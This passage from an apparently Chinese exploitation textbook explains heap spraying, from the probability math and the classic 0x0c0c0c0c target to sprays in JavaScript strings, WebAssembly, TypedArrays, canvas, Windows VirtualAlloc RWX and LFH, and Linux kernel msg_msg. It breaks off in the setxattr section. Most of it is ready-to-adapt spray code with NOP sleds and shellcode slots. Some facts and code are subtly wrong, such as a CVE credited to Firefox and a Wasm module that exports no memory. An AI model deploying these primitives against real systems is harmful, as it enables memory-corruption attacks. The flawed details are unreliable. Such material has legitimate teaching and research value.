




## 31.5 堆喷射技术

堆喷射（Heap Spray）是漏洞利用中最具哲学美感的"概率暴力"技术——它不追求精确控制内存布局，而是通过大规模分配可控内容来"淹没"目标地址空间，使得跳转到任意地址时大概率命中攻击者精心构造的 payload。这项技术诞生于 2004 年 IE 浏览器漏洞利用的黄金年代，至今仍是内核提权、UAF 利用链、沙箱逃逸中不可或缺的基础设施。

与 ROP（31.4 节）解决"如何执行"不同，堆喷射解决的是"在哪里执行"的问题——当攻击者无法预测代码/数据在内存中的精确位置时，堆喷射通过概率覆盖将"不知道在哪"转化为"到处都是"。



### 31.5.1 堆喷射的理论基础

#### 为什么堆喷射有效

堆喷射的核心假设是：**攻击者无法精确控制目标对象在堆中的分配地址，但可以控制堆内存的总体内容**。这个假设在绝大多数漏洞场景中成立，原因如下：

1. **ASLR 的存在**：地址空间布局随机化使得堆基地址不可预测，精确布局（堆风水）的难度大幅增加
2. **分配器行为不可控**：堆分配器（ptmalloc、jemalloc、Windows LFH、SLUB）的空闲链表管理具有不确定性
3. **漏洞原语有限**：很多漏洞只提供一个"跳转到任意地址"的能力（如虚表劫持、栈溢出覆盖返回地址），不提供精确的内存写原语
4. **竞争条件不可预测**：多线程环境下的分配时序难以精确控制

在这些约束下，堆喷射的策略是：**既然不知道目标地址在哪里，就把整个地址空间都填满我们的数据**。这本质上是一种"空间换确定性"的工程思想——用大量内存分配来弥补信息不足。

#### 概率模型

堆喷射的成功概率可以通过数学模型精确估算。理解这个模型对于选择喷射参数（块大小、数量）至关重要。

设目标地址为 `T`，喷射块大小为 `S`，喷射数量为 `N`，堆地址空间范围为 `R`。

**单块命中概率**：在均匀分布假设下，一个随机分配的块恰好覆盖目标地址的概率为：

```text
P(单块命中) = S / R
```

**N 次喷射后的命中概率**：N 次独立分配后至少有一次覆盖目标地址的概率为：

```text
P(至少命中一次) = 1 - (1 - S/R)^N
```

当 N 足够大且 S/R 较小时，这近似于：

```text
P ≈ 1 - e^(-N·S/R)
```

**场景 1：32 位进程（经典浏览器场景）**

| 参数 | 值 | 说明 |
|------|-----|------|
| 堆地址空间 R | ≈ 1GB (0x06000000 ~ 0x46000000) | IE/Firefox 的典型堆范围 |
| 喷射块大小 S | 2MB (0x200000) | 单次分配的大小 |
| 喷射数量 N | 512 | 总共分配 512 个块 |
| 总内存消耗 | 1GB | 等于整个堆地址空间 |

```text
P = 1 - (1 - 2MB/1024MB)^512
  = 1 - (1 - 1/512)^512
  ≈ 1 - 1/e
  ≈ 0.632
```

这就是为什么经典的 **512 × 2MB 喷射方案**在 32 位环境下能提供约 63% 的单次命中率。增加到 1024 个块可以将概率提升到约 86%。

**场景 2：64 位进程（现代浏览器场景）**

| 参数 | 值 | 说明 |
|------|-----|------|
| 堆地址空间 R | ≈ 8GB (低 47 位中实际使用的部分) | 大多数进程不会映射到高地址 |
| 喷射块大小 S | 1MB | Chrome V8 限制单次分配上限 |
| 喷射数量 N | 1000 | 受浏览器内存限制 |
| 总内存消耗 | 1GB | 可接受范围 |

```text
P = 1 - (1 - 1MB/8192MB)^1000
  = 1 - (1 - 1/8192)^1000
  ≈ 1 - e^(-1000/8192)
  ≈ 1 - e^(-0.122)
  ≈ 0.115
```

单次命中率仅约 11.5%。这是 **64 位环境下堆喷射面临的根本挑战**——地址空间太大，均匀分布假设下的覆盖效率急剧下降。

**实际应对策略**：

- **减少有效地址空间**：通过信息泄露获取部分地址信息，将目标范围缩小到可喷射覆盖的区间
- **增加喷射块大小**：利用 Large Object Area (LOH) 或 mmap 分配更大的块
- **利用分配器行为**：某些分配器（如 Windows LFH）会将相同大小的分配集中到特定区域，大幅缩小实际 R
- **结合堆风水**：不是盲目覆盖整个地址空间，而是精心布局后在特定区域集中喷射

#### 地址选择策略

选择喷射目标地址时需要综合考虑以下因素：

| 因素 | 说明 | 典型选择 |
|------|------|----------|
| 堆分配范围 | 必须在实际堆分配的地址区间内 | 32 位: 0x0c0c0c0c, 0x0d0d0d0d |
| 指令兼容性 | 地址值被当作指令执行时不能破坏流程 | 0x0c → `or al, 0x0c`（无害） |
| 页面对齐 | 块边界应与页面对齐（4KB） | 块大小为 1MB/2MB 的整数倍 |
| NOP sled 兼容 | 地址应落在 NOP 指令的滑行区域中 | 0x90909090 附近的地址 |
| 可打印字符 | 某些漏洞要求 payload 为可打印 ASCII | 0x41414141 ('AAAA') |
| Null-safe | 地址不能包含 null 字节（字符串截断） | 避免 0x00xx00xx 模式 |

**经典地址 0x0c0c0c0c 的选择理由**：

- 处于 32 位堆分配的常见范围内（IE 浏览器的堆通常从 0x000e0000 开始）
- `0x0c` 在 x86 指令集中是 `or al, imm8`，操作数恰好也是 `0x0c`，跳转到此处不会崩溃，而是作为 NOP-like 指令滑过
- 在 JavaScript 字符串中，`\u0c0c` 是可控字符，不会触发编码异常
- 与 `0x90`（NOP）构成的 sled 区域高度重合——即使地址不完全对齐，附近的 NOP 指令也能将执行流导向 shellcode

**64 位环境下的地址选择**：64 位下经典的 `0x0c0c0c0c` 不再有效（不在可寻址范围内）。现代利用通常需要先通过信息泄露获取堆/模块基地址，然后计算一个在已知范围内的喷射目标地址。

#### 堆喷射与堆风水的区别

很多资料混淆了"堆喷射"（Heap Spray）和"堆风水"（Heap Feng Shui/Grooming），但它们是两个互补的技术：

| 维度 | 堆喷射 (Heap Spray) | 堆风水 (Heap Grooming) |
|------|---------------------|----------------------|
| 核心思想 | 大量分配，概率覆盖 | 精确分配/释放，塑造布局 |
| 对分配器的了解 | 不需要，纯暴力 | 需要深入理解分配器行为 |
| 内存消耗 | 高（需要覆盖大面积） | 低（只操作目标区域） |
| 成功率 | 概率性（可重复提升） | 近乎确定性 |
| 适用场景 | 信息不足、地址未知 | 信息充分、布局可控 |
| 典型应用 | 浏览器 shellcode 布置 | 内核 UAF 对象替换 |
| 技术关系 | 基础设施，可与堆风水结合 | 高级技术，需要堆喷射辅助 |

实际利用中，两者往往**同时使用**：先通过堆风水制造精确的堆布局（如间隔释放制造空洞），然后通过堆喷射在空洞位置填入攻击数据。这种组合使用在 31.5.4 节的 UAF 利用中有详细演示。

### 31.5.2 用户态堆喷射

#### JavaScript 堆喷射（经典方法，2004-2012）

JavaScript 堆喷射是堆喷射技术的"始祖"，诞生于 IE 浏览器漏洞利用的黄金时代。其原理是利用 JavaScript 引擎在堆上分配大量字符串对象，将 shellcode 布置在可预测的地址附近。

**历史背景**：2004 年，安全研究员 David Remer 首次在 IE 的 `createTextRange()` 漏洞中使用了 JS 堆喷射技术。此后，这项技术被广泛应用于 IE、Firefox、Safari 的数百个 CVE 中，成为浏览器漏洞利用的标准操作。直到 2013 年 Chrome 引入强制 ASLR 和 V8 sandbox 后，纯 JS 堆喷射的成功率才显著下降。

```javascript
/**
 * JavaScript 堆喷射 - 经典方法
 * 核心思想：分配大量包含 NOP sled + shellcode 的字符串
 * 使目标地址大概率落在 NOP sled 区域
 *
 * 历史上被用于：
 * - IE createTextRange (CVE-2006-1359)
 * - IE vml_fill (CVE-2010-0806)
 * - Firefox nsSVGGeometryElement (CVE-2010-0188)
 * - 多个 Flash Player 漏洞
 */
function heapSpray(targetAddr, shellcode) {
    // 喷射块的数量和大小
    // 32 位下通常 512 个 2MB 块 = 1GB 内存
    var sprayCount = 0x200;  // 512
    var blockSize = 0x200000; // 2MB

    // 构造单个喷射块：NOP sled + shellcode + 填充
    var chunk = "";

    // NOP sled 部分 - x86 指令 0x90 = NOP
    // 使用 \u9090 是因为 JavaScript 字符串是 UTF-16 编码
    // 每个 JavaScript 字符 = 2 字节 = 2 条 NOP 指令
    for (var i = 0; i < 0x1000; i++) {
        chunk += "\u9090";  // 2 字节的 NOP
    }

    // 追加 shellcode（以 UTF-16 字符串形式）
    chunk += shellcode;

    // 用 NOP 填充剩余空间，使块对齐到 blockSize
    while (chunk.length < blockSize / 2) {  // 除以 2 因为 UTF-16 每字符 2 字节
        chunk += "\u9090";
    }

    // 执行喷射：分配大量相同内容的字符串
    var spray = new Array(sprayCount);
    for (var i = 0; i < sprayCount; i++) {
        // substr 创建新字符串对象，确保在堆上分配
        // 注意：现代 JS 引擎有字符串驻留（interning）机制，
        // substr 产生的新字符串会被独立分配
        spray[i] = chunk.substr(0, chunk.length);
    }

    return spray;
}

// 使用示例
// 目标地址 0x0c0c0c0c 在经典的 IE 漏洞利用中被广泛使用
var shellcode = "\uXXXX\uXXXX\uXXXX\uXXXX"; // 实际 payload（UTF-16 编码的 shellcode）
var spray = heapSpray(0x0c0c0c0c, shellcode);

// 此时 0x0c0c0c0c 附近的内存布局：
// [NOP NOP NOP NOP ... shellcode ... NOP NOP ...]
// 当漏洞触发、EIP 被覆盖为 0x0c0c0c0c 时，
// CPU 从该地址开始执行，滑过 NOP sled，最终到达 shellcode
```

**为什么用 UTF-16 编码**：JavaScript 内部使用 UTF-16 表示字符串，每个字符占 2 字节。这意味着 `\u9090` 在内存中恰好是两条 `NOP` 指令（`0x90 0x90`）。但这也带来了两个限制：

1. **编码限制**：不能直接包含 null 字节（`\u0000`）或特定的 UTF-16 代理对（surrogate pair），否则字符串会被截断或产生编码异常
2. **对齐问题**：UTF-16 的 2 字节对齐意味着 shellcode 中的奇数字节指令会被拆分到不同的字符边界

实际利用中通常需要对 shellcode 进行 UTF-16 兼容的编码——将每两条 x86 指令打包为一个 UTF-16 字符。

**JS 堆喷射的局限性**：

| 局限 | 说明 | 影响 |
|------|------|------|
| UTF-16 编码 | 字符串只能包含合法的 UTF-16 字符 | Shellcode 编码复杂度增加 |
| 字符串驻留 | 引擎可能对相同字符串进行 dedup | 减少实际堆分配 |
| GC 干扰 | 垃圾回收可能重新排列堆布局 | 增加不确定性 |
| W^X 保护 | 现代浏览器对 JIT 页执行 W^X | 无法直接在字符串中执行代码 |
| 4GB 内存限制 | 32 位进程最多 4GB 虚拟内存 | 喷射规模受限 |

#### WebAssembly 堆喷射（现代方法）

随着浏览器安全机制的增强（W^X、CFG、CET），JavaScript 字符串喷射逐渐被更可控的 WebAssembly 线性内存所替代：

```javascript
/**
 * WebAssembly 堆喷射
 * 优势：
 * 1. 线性内存是连续的、可读写的 ArrayBuffer
 * 2. 可以精确控制每个字节的值（不受 UTF-16 编码限制）
 * 3. 内存页大小固定（64KB），布局更可预测
 * 4. 线性内存不受 GC 影响，生命周期可控
 *
 * 适用场景：
 * - 需要精确字节控制的 shellcode 布置
 * - 虚表指针伪造（需要精确的 8 字节对齐）
 * - 信息泄露（读取线性内存中的指针）
 */
function wasmHeapSpray(shellcodeBytes) {
    var instances = [];
    var moduleBytes = new Uint8Array([
        0x00, 0x61, 0x73, 0x6d, // magic: \0asm
        0x01, 0x00, 0x00, 0x00, // version: 1
        // 内存段：初始 16 页（1MB），最大 16 页
        0x05, 0x03, 0x01, 0x00, 0x10
    ]);

    // 分配 256 个 WebAssembly 实例
    for (var i = 0; i < 256; i++) {
        var module = new WebAssembly.Module(moduleBytes);
        var instance = new WebAssembly.Instance(module);
        var mem = new Uint8Array(instance.exports.memory.buffer);

        // 在线性内存中布置 shellcode
        // 每个实例的线性内存大小为 16 页 × 64KB = 1MB
        for (var offset = 0; offset < mem.length; offset += 0x1000) {
            // 写入 NOP sled（256 字节）
            for (var j = 0; j < 0x100 && (offset + j) < mem.length; j++) {
                mem[offset + j] = 0x90;
            }
            // 在 NOP sled 之后写入 shellcode
            var scOffset = offset + 0x100;
            for (var j = 0; j < shellcodeBytes.length && (scOffset + j) < mem.length; j++) {
                mem[scOffset + j] = shellcodeBytes[j];
            }
        }

        instances.push(instance);
    }

    return instances;
}
```

**WebAssembly 喷射与 JS 字符串喷射的对比**：

| 特性 | JS 字符串喷射 | WebAssembly 线性内存喷射 |
|------|--------------|------------------------|
| 字节精度 | 2 字节对齐（UTF-16） | 1 字节精确控制 |
| 最大单块 | 受 JS 引擎字符串限制 | 受 Wasm 线性内存限制（通常 4GB） |
| GC 影响 | 受 GC 管理，可能被压缩/移动 | 不受 GC 影响，地址稳定 |
| 执行保护 | 字符串在只读页 | 线性内存可设为 RWX（部分浏览器） |
| 布局可预测性 | 引擎内部碎片化影响 | 连续线性内存，布局清晰 |

#### TypedArray 喷射

对于需要在 JavaScript 引擎堆上喷射特定字节模式的场景，TypedArray 是最直接的工具：

```javascript
/**
 * TypedArray 堆喷射
 * 直接在 ArrayBuffer 中写入精确的字节序列
 *
 * 典型用途：
 * - 伪造虚表指针（vtable pointer）
 * - 伪造对象头（object header）
 * - 布置 ROP gadget 地址
 * - 信息泄露后精确覆写特定偏移
 */
function typedArraySpray(targetData, count) {
    var buffers = [];
    var chunkSize = 0x100000; // 1MB per chunk

    for (var i = 0; i < count; i++) {
        var buf = new ArrayBuffer(chunkSize);
        var view = new Uint8Array(buf);

        // 在块内重复布置目标数据
        // 确保每个 1MB 块内都有多个目标数据的副本
        for (var offset = 0; offset < chunkSize; offset += targetData.length) {
            view.set(targetData, offset);
        }

        buffers.push(buf);
    }

    return buffers;
}

// 用法 1：喷射伪造的虚表指针
var fakeVtable = new Uint8Array([
    0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, // fake vtable entry 1
    0x42, 0x42, 0x42, 0x42, 0x42, 0x42, 0x42, 0x42, // fake vtable entry 2
    // ... 更多虚表项
]);
var spray = typedArraySpray(fakeVtable, 512);

// 用法 2：喷射 ROP 链 + shellcode
// 先布置 ROP chain，再在后面放置 shellcode
var ropChain = new Uint8Array([
    // gadget 1: pop rdi; ret
    0x78, 0x56, 0x34, 0x12, 0x00, 0x00, 0x00, 0x00,
    // gadget 2: pop rsi; ret
    0x78, 0x56, 0x34, 0x12, 0x00, 0x00, 0x00, 0x00,
    // ... ROP chain
]);
// 将 shellcode 拼接在 ROP 链后面
var combinedPayload = new Uint8Array(ropChain.length + 256);
combinedPayload.set(ropChain);
combinedPayload.fill(0x90, ropChain.length); // NOP sled
// 在 NOP sled 后写入 shellcode...
var sprayRop = typedArraySpray(combinedPayload, 512);
```

#### Windows 平台的堆喷射

Windows 平台的堆喷射有其独特的历史和技术生态，尤其在浏览器漏洞利用中占据主导地位。

**VirtualAlloc 喷射**：Windows 上最简单的堆喷射方式，通过 `VirtualAlloc` 分配大量页面，直接写入 shellcode：

```c
// Windows VirtualAlloc 堆喷射
// 优势：分配的内存直接是 RWX（可读可写可执行）
// 劣势：分配的内存不在默认堆中，需要跳转到 VirtualAlloc 的地址空间
#include <windows.h>
#include <stdio.h>

#define SPRAY_COUNT 512
#define BLOCK_SIZE  0x200000  // 2MB

void windowsHeapSpray(const unsigned char *shellcode, size_t shellcodeLen) {
    void **sprayBlocks = (void **)malloc(SPRAY_COUNT * sizeof(void *));
    
    for (int i = 0; i < SPRAY_COUNT; i++) {
        // VirtualAlloc 分配 2MB，MEM_COMMIT 确保物理页面已分配
        sprayBlocks[i] = VirtualAlloc(
            NULL,                    // 由系统决定地址
            BLOCK_SIZE,              // 分配大小
            MEM_COMMIT | MEM_RESERVE, // 提交并保留
            PAGE_EXECUTE_READWRITE   // RWX 权限 —— 这是关键
        );
        
        if (sprayBlocks[i] == NULL) {
            printf("[-] VirtualAlloc failed at block %d\n", i);
            break;
        }
        
        // 在每个块的前 0x1000 字节写入 NOP sled
        memset(sprayBlocks[i], 0x90, 0x1000);
        
        // 在 NOP sled 之后写入 shellcode
        memcpy((char *)sprayBlocks[i] + 0x1000, shellcode, shellcodeLen);
        
        // 在剩余空间也写入 NOP sled
        memset((char *)sprayBlocks[i] + 0x1000 + shellcodeLen, 0x90, 
               BLOCK_SIZE - 0x1000 - shellcodeLen);
    }
    
    printf("[+] Windows heap spray: allocated %d blocks of %d bytes\n", 
           SPRAY_COUNT, BLOCK_SIZE);
    // 注意：不释放 sprayBlocks，它们需要在漏洞触发时保持存在
}
```

**Windows LFH（Low Fragmentation Heap）喷射**：LFH 是 Windows Vista+ 引入的堆管理器优化，它将频繁分配的小对象（≤16KB）集中到按大小对齐的桶（bucket）中。这对堆喷射既是机遇也是挑战：

- **机遇**：LFH 使得相同大小的分配高度局部化，堆喷射的命中率大幅提升
- **挑战**：LFH 引入了随机化（随机移除某些空闲块），增加了精确布局的难度

```c
// 利用 Windows LFH 进行堆喷射
// LFH 的 bucket 大小按 16 字节对齐：16, 32, 48, 64, ... 16384
// 目标对象大小必须匹配某个 bucket

// 步骤 1：触发 LFH 启用
// LFH 在某个 bucket 的分配次数超过阈值（默认 16 次）后才启用
// 需要先进行一轮"预热"分配
#define WARMUP_COUNT 64
void *warmupBlocks[WARMUP_COUNT];
for (int i = 0; i < WARMUP_COUNT; i++) {
    warmupBlocks[i] = malloc(192);  // 触发 kmalloc-192 对应的 LFH bucket
    memset(warmupBlocks[i], 0x41, 192);
}

// 步骤 2：释放预热块，LFH bucket 已激活
for (int i = 0; i < WARMUP_COUNT; i++) {
    free(warmupBlocks[i]);
}

// 步骤 3：正式喷射 —— LFH 确保分配在连续的内存区域中
void *sprayBlocks[SPRAY_COUNT];
for (int i = 0; i < SPRAY_COUNT; i++) {
    sprayBlocks[i] = malloc(192);
    // 在块中布置伪造数据
    memset(sprayBlocks[i], 0x90, 192);  // NOP sled
    memcpy((char *)sprayBlocks[i] + 64, shellcode, shellcodeLen);
}
```

#### DOM 对象喷射

DOM 对象喷射是一种利用浏览器 DOM 节点分配进行堆喷射的高级技术。与字符串/Wasm 喷射不同，DOM 对象喷射利用的是浏览器渲染引擎（如 Blink、Gecko）内部的 C++ 对象分配：

```javascript
// DOM 对象喷射 - 利用 DOM 元素在堆上分配 C++ 对象
function domObjectSpray(count) {
    var elements = [];
    for (var i = 0; i < count; i++) {
        // 创建 DOM 元素会触发渲染引擎的 C++ 对象分配
        // 这些对象包含虚表指针和其他可利用的字段
        var elem = document.createElement('div');
        elem.setAttribute('class', 'spray_' + i);
        elem.style.cssText = 'position:absolute;left:-9999px';
        document.body.appendChild(elem);
        elements.push(elem);
    }
    return elements;
}

// 更高级：利用 canvas ImageData 喷射精确字节
function canvasSpray(count) {
    var canvases = [];
    for (var i = 0; i < count; i++) {
        var canvas = document.createElement('canvas');
        canvas.width = 256;
        canvas.height = 256;
        var ctx = canvas.getContext('2d');
        var imageData = ctx.createImageData(256, 256);
        
        // imageData.data 是 Uint8ClampedArray，可以直接写入任意字节
        // 每个 canvas 的 ImageData 在堆上分配 256*256*4 = 256KB
        var data = imageData.data;
        for (var j = 0; j < data.length; j++) {
            data[j] = 0x90;  // NOP sled
        }
        ctx.putImageData(imageData, 0, 0);
        canvases.push({ canvas: canvas, ctx: ctx, imageData: imageData });
    }
    return canvases;
}
```

### 31.5.3 内核态堆喷射

内核态堆喷射与用户态有本质区别：**内核使用 slab 分配器（SLAB/SLUB），不同大小的对象分配在不同的缓存（cache）中**。这意味着喷射对象的大小必须与目标对象精确匹配，否则它们不会分配在同一个 slab 中，也就无法实现覆盖。

这一限制使得内核堆喷射比用户态更精细——不能简单地"大量分配就行"，而必须精确匹配 slab 缓存的大小档位。


**Linux SLUB 分配器的大小档位**：

| slab 缓存 | 对象大小 | 适用喷射场景 |
|-----------|---------|-------------|
| kmalloc-8 | 8 字节 | 极小对象（指针字段） |
| kmalloc-16 | 16 字节 | 小型结构体 |
| kmalloc-32 | 32 字节 | 中型结构体 |
| kmalloc-64 | 64 字节 | pipe_buffer, timerfd_ctx 等 |
| kmalloc-96 | 96 字节 | 中等结构体 |
| kmalloc-128 | 128 字节 | 较大结构体 |
| kmalloc-192 | 192 字节 | 中型内核对象 |
| kmalloc-256 | 256 字节 | 通用对象 |
| kmalloc-512 | 512 字节 | 大型结构体 |
| kmalloc-1k | 1024 字节 | 大型对象 |
| kmalloc-2k | 2048 字节 | 特大对象 |
| kmalloc-4k | 4096 字节 | 页面级对象 |
| kmalloc-8k | 8192 字节 | 多页对象 |
| kmalloc-16k | 16384 字节 | 极大对象 |

#### msg_msg 喷射

`msg_msg` 是 Linux 内核中消息队列使用的核心数据结构。它是内核堆喷射中最常用、最灵活的原语之一，原因如下：

- **大小可控**：消息长度从 0 到 64KB 连续可调（跨越几乎所有 kmalloc 档位）
- **数据完全可控**：用户态完全控制消息内容，可以写入任意字节模式
- **分配稳定**：msgget/msgsnd 接口简单可靠，不受 GC 或线程调度影响
- **信息泄露能力**：msgrcv 可以读取消息内容，用于验证覆盖或泄露内核指针
- **跨进程共享**：同一消息队列可被多个进程访问，适用于多进程利用场景

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>
#include <sys/ipc.h>
#include <sys/msg.h>
#include <errno.h>
#include <stdint.h>

/**
 * msg_msg 结构体在内核中的布局（64 位内核）：
 *
 * struct msg_msg {
 *     struct list_head m_list;    // 16 字节（双向链表指针）
 *     long m_type;                // 8 字节（消息类型，必须 > 0）
 *     size_t m_ts;                // 8 字节（消息大小）
 *     struct msg_msgseg *next;    // 8 字节（分段指针）
 *     void *security;             // 8 字节（SELinux 安全指针）
 *     // 前 48 字节是元数据
 *     char m_text[0];             // 柔性数组（用户数据从这里开始）
 * };
 *
 * 分配在 kmalloc-cpu-XX 或 kmalloc-XX 中
 * 总分配大小 = 48 (header) + m_ts (用户数据)
 * 例如：m_ts=144 时，总大小 192，分配在 kmalloc-192
 */
#define MSG_HEADER_SIZE 48  // msg_msg 结构体头部大小（64 位内核）

struct spray_context {
    int msqid;          // 消息队列 ID
    int count;          // 已发送的消息数量
    size_t msg_size;    // 每条消息的数据大小
    size_t total_size;  // 每条消息的总分配大小（header + data）
};

/**
 * 创建消息队列并执行喷射
 * @param target_size: 目标对象在内核中的大小（= header + msg_data）
 * @param fill_data: 填充数据（NULL 则用 0x41）
 * @param count: 喷射数量
 * @return: 喷射上下文，用于后续操作
 */
struct spray_context *msg_msg_spray(size_t target_size, void *fill_data, int count) {
    if (target_size <= MSG_HEADER_SIZE) {
        fprintf(stderr, "[-] Target size too small for msg_msg (min %zu)\n",
                (size_t)MSG_HEADER_SIZE + 1);
        return NULL;
    }
    size_t msg_data_size = target_size - MSG_HEADER_SIZE;

    struct spray_context *ctx = malloc(sizeof(struct spray_context));
    if (!ctx) return NULL;

    // 创建私有消息队列
    // IPC_PRIVATE 确保新创建，不会与已有队列冲突
    ctx->msqid = msgget(IPC_PRIVATE, 0644 | IPC_CREAT);
    if (ctx->msqid == -1) {
        perror("[-] msgget failed");
        free(ctx);
        return NULL;
    }

    // 准备消息缓冲区
    // Linux msgsnd 要求第一个 sizeof(long) 字节为消息类型（mtype > 0）
    size_t buf_size = sizeof(long) + msg_data_size;
    char *buf = malloc(buf_size);
    if (!buf) {
        msgctl(ctx->msqid, IPC_RMID, NULL);
        free(ctx);
        return NULL;
    }

    // 设置消息类型
    *(long *)buf = 1;

    // 设置消息内容
    if (fill_data) {
        memcpy(buf + sizeof(long), fill_data, msg_data_size);
    } else {
        memset(buf + sizeof(long), 0x41, msg_data_size);
    }

    // 执行喷射
    ctx->count = 0;
    ctx->msg_size = msg_data_size;
    ctx->total_size = target_size;
    for (int i = 0; i < count; i++) {
        if (msgsnd(ctx->msqid, buf, msg_data_size, IPC_NOWAIT) == -1) {
            if (errno == EAGAIN) {
                printf("[!] Message queue full at %d messages (limit from /proc/sys/kernel/msgmnb)\n", i);
                break;
            }
            perror("[-] msgsnd failed");
            break;
        }
        ctx->count++;
    }

    printf("[+] msg_msg spray: %d objects, size=%zu (data=%zu), total=%zu bytes\n",
           ctx->count, target_size, msg_data_size, ctx->count * target_size);

    free(buf);
    return ctx;
}

/**
 * 释放指定范围的消息，制造堆空洞
 * 这是堆风水的关键操作——间隔释放可以制造可控的空洞布局
 * @param ctx: 喷射上下文
 * @param start: 起始消息索引
 * @param end: 结束消息索引（不含）
 */
void msg_msg_free_range(struct spray_context *ctx, int start, int end) {
    char *buf = malloc(sizeof(long) + ctx->msg_size);
    if (!buf) return;

    for (int i = start; i < end && i < ctx->count; i++) {
        // msgrcv 的 type=0 表示接收队列中的第一条消息（FIFO）
        // MSG_NOERROR 截断超长消息，不报错
        if (msgrcv(ctx->msqid, buf, ctx->msg_size, 0, MSG_NOERROR | IPC_NOWAIT) == -1) {
            break;
        }
    }

    free(buf);
}

/**
 * 间隔释放：每隔一个消息释放一个，制造均匀空洞
 * 这是 UAF 利用中最常用的堆风水策略
 */
void msg_msg_free_alternating(struct spray_context *ctx) {
    msg_msg_free_range(ctx, 0, ctx->count);
    // 重新发送偶数索引的消息（模拟间隔占用）
    char *buf = malloc(sizeof(long) + ctx->msg_size);
    if (!buf) return;
    *(long *)buf = 1;
    memset(buf + sizeof(long), 0x41, ctx->msg_size);

    for (int i = 0; i < ctx->count; i += 2) {
        msgsnd(ctx->msqid, buf, ctx->msg_size, IPC_NOWAIT);
    }
    free(buf);
}

/**
 * 读取消息内容（用于信息泄露）
 * 注意：读取会从队列中移除消息，需要重新发送来保持堆布局
 */
int msg_msg_read(struct spray_context *ctx, int index, void *out_buf, size_t out_size) {
    char *buf = malloc(sizeof(long) + ctx->msg_size);
    if (!buf) return -1;

    for (int i = 0; i <= index; i++) {
        ssize_t ret = msgrcv(ctx->msqid, buf, ctx->msg_size, 0, MSG_NOERROR | IPC_NOWAIT);
        if (ret == -1) {
            free(buf);
            return -1;
        }
        if (i == index) {
            size_t copy_size = out_size < ctx->msg_size ? out_size : ctx->msg_size;
            memcpy(out_buf, buf + sizeof(long), copy_size);
        }
    }

    free(buf);
    return 0;
}

/**
 * 清理消息队列
 */
void msg_msg_cleanup(struct spray_context *ctx) {
    if (!ctx) return;
    if (ctx->msqid != -1) {
        msgctl(ctx->msqid, IPC_RMID, NULL);
    }
    free(ctx);
}
```

#### setxattr 喷射

`setxattr` 是设置文件扩展属性的系统调用。它在内核中通过 `kmalloc` 分配内存来存储属性值，是一种精确可控的堆喷射原语：

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/xattr.h>
#include <unistd.h>
#include <errno.h>

/**
 * setxattr 堆喷射
 *
 * 优势：
 * - 大小完全可控（0 到 XATTR_SIZE_MAX，通常 64KB）
